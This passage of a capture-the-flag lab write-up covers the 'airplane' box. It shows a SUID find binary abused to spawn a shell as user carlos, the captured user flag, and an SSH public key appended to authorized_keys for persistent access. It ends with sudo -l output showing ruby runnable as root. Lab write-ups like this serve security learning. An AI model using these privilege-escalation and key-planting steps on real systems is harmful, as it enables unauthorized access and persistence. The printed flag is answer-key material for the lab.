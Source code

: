We can go to [[GTFObins]] and find what we need to escalate :

![[Pasted image 20250722163428.png]]

So let's give that a shot :

```bash
hudson@airplane:~$ /usr/bin/find -exec /bin/sh -p \; -quit
$ whoami
carlos
$ ls
app  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
$ cd ..
$ ls
carlos  hudson
$ cd carlos
$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
$ cat user
cat: user: No such file or directory
$ cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

We can access `carlos` on ssh to have a more stable shell without stabilizing it, we'll follow the same path as other user, echo our public key in .ssh folder :

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali' >> authorized_keys
```

We can't because we are `carlos` as `hudson` we need to update permissions :

```bash
chmod 644 authorized_keys
```

## SSH Carlos

Now we can really start [[Privilege Escalation]] we check :

```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb

```

## GTFObins
